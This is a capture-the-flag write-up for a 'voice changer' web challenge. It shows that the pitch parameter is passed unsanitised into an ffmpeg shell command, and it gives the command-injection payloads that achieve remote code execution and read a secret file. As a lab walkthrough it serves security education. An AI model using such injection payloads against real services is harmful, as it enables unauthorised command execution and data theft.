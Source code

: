 # voice changer

![Alt text](<Web capture_15-1-2024_20505_play.uoftctf.org.jpeg>)

in this challenge we were given a link where we can record voice, set a pitch 

![Alt text](<Web capture_16-1-2024_22513_uoftctf-voice-changer.chals.io.jpeg>)

after we submit we can see this output
```bash
$ ffmpeg -i "/app/upload/72164cf0-b40e-11ee-987f-953cab8ae888.ogg" -y -af "asetrate=44100*1,aresample=44100,atempo=1/1" "/app/output/72164cf0-b40e-11ee-987f-953cab8ae888.ogg"

ffmpeg version 6.1 Copyright (c) 2000-2023 the FFmpeg developers
  built with gcc 13.2.1 (Alpine 13.2.1_git20231014) 20231014
  configuration: --prefix=/usr --disable-librtmp --disable-lzma --disable-static --disable-stripping --enable-avfilter --enable-gpl --enable-ladspa --enable-libaom --enable-libass --enable-libbluray --enable-libdav1d --enable-libdrm --enable-libfontconfig --enable-libfreetype --enable-libfribidi --enable-libharfbuzz --enable-libmp3lame --enable-libopenmpt --enable-libopus --enable-libplacebo --enable-libpulse --enable-librav1e --enable-librist --enable-libsoxr --enable-libsrt --enable-libssh --enable-libtheora --enable-libv4l2 --enable-libvidstab --enable-libvorbis --enable-libvpx --enable-libwebp --enable-libx264 --enable-libx265 --enable-libxcb --enable-libxml2 --enable-libxvid --enable-libzimg --enable-libzmq --enable-lto=auto --enable-lv2 --enable-openssl --enable-pic --enable-postproc --enable-pthreads --enable-shared --enable-vaapi --enable-vdpau --enable-version3 --enable-vulkan --optflags=-O3 --enable-libjxl --enable-libsvtav1 --enable-libvpl
  libavutil      58. 29.100 / 58. 29.100
  libavcodec     60. 31.102 / 60. 31.102
  libavformat    60. 16.100 / 60. 16.100
  libavdevice    60.  3.100 / 60.  3.100
  libavfilter     9. 12.100 /  9. 12.100
  libswscale      7.  5.100 /  7.  5.100
  libswresample   5.  0.100 /  5.  0.100
  libpostproc    57.  3.100 / 57.  3.100
[ogg @ 0x7fbc1f998600] Format ogg detected only with low score of 1, misdetection possible!
[in#0 @ 0x7fbc1fa8e8c0] Error opening input: End of file
Error opening input file /app/upload/72164cf0-b40e-11ee-987f-953cab8ae888.ogg.
Error opening input files: End of file
```

it seems that the website is using ffmpeg on the command line to change the pitch.

lets see the requests using [burp suite](https://portswigger.net/burp)

![Alt text](Capture.PNG)

in burp we can see that the file is uploaded to the sever so i tried to upload different types of files but it didn't work then i saw the pitch parameter is used with ffmpeg in the command line.

![Alt text](1.PNG)

so I started playing around. I set this value

 `1" || ls -al #`

 and I got this

![Alt text](Capture4.PNG)

we got an RCE, change the payload to:

`1" || cd .. && cat secret.txt #`

![Alt text](Capture2.PNG)
